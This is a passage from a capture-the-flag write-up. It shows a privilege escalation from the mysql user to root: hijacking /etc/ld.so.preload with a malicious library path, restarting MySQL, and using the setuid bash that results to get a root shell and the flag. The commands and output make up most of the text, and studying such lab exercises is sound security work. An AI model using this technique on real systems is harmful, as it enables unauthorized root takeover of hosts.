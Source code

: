```bash
kill -9 114
```

We observe that `/etc/ld.so.preload` has been created:

```
-rw-r----- 1 mysql root 19900 Mar 23 18:45 /etc/ld.so.preload
```

Since we now own `/etc/ld.so.preload` with the `mysql` user we can simply echo the path to our library.

```bash
echo '/var/lib/mysql/chmod.so' > /etc/ld.so.preload
```

Restart MySQL one final time.

```bash
kill -9 164
```

And notice `/bin/bash` now has a setuid bit set:

```
-rwsr-xr-x 1 root root 964600 Aug  8  2019 /bin/bash
```

We can use bash to get a root shell:

```bash
$ /bin/bash -p

$ id
uid=999(mysql) gid=998(mysql) euid=0(root) groups=998(mysql)

$ whoami
root
```

Flag can be found at `/root/flag`

### Flag

`two_six{c0n6r475_y0u_f0und_7h3_fl46_f8b9d92d6e96358087ad512cf062cee1}`